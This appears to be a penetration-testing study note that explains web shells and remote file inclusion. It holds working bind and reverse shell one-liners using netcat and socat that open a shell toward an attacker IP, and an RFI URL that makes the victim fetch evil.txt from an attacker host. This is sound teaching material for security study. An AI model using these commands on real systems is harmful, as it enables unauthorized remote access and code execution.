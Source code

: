 The parameter 'cmd' is our command to be executed, proving that we have a web shell. From here, we can then use either a reverse shell or bind shell to gain a full shell on the target machine. 

[[02 Notes/Bind & Reverse Shells]]

**Bind shell**
```bash
# On victim (Listener)
nc -lvnp <PORT> -e /bin/bash # or 'powershell.exe,pipes' if Windows
socat TCP-L:<PORT> EXEC:/bin/bash # alternative using socat

# On attacker
nc <TARGET-IP> <TARGET-PORT>
socat TCP:<TARGET-IP>:<TARGET-PORT> - # alternative using socat
```

**Reverse shell**
```bash
# On attacker (Listener)
nc -lvnp <PORT>
socat TCP-L:<PORT>

# On victim
nc <ATTACKER-IP> <ATTACKER-PORT> -e /bin/bash # or 'powershell.exe' if Windows
socat TCP:<ATTACKER-IP>:<ATTACKER-PORT> EXEC:"bash -li" # or 'powershell.exe,pipes' if Windows
```


# Remote File Inclusion (RFI)
While RFIs are less common than LFIs since they require specific server configuration, they are easier to exploit.

For RFIs to be used, the PHP apps must be configured with *allow_url_include* to be "On". In newer versions of PHP, this is default to be "Off".

Here is an example of an RFI:
```bash
http://<VICTIM-SERVER-IP>/menu.php?file=http://<ATTACKER-KALI-IP>/evil.txt
```

This can be tested and confirmed by launching a netcat listener on our Kali machine, before submitting the URL to the target machine. Our netcat listener should see a GET request from the victim for that particular file.
```bash
# On Kali machine
sudo nc -nvlp 80

# Submit URL to victim server to get file from our Kali machine

# listening on [any] 80 ...
# connect to [<KALI-IP>] from (UNKNOWN) [<VICTIM-IP>] 50324
# GET /evil.txt HTTP/1.0
# Host: <KALI-IP>
# Connection: close

```
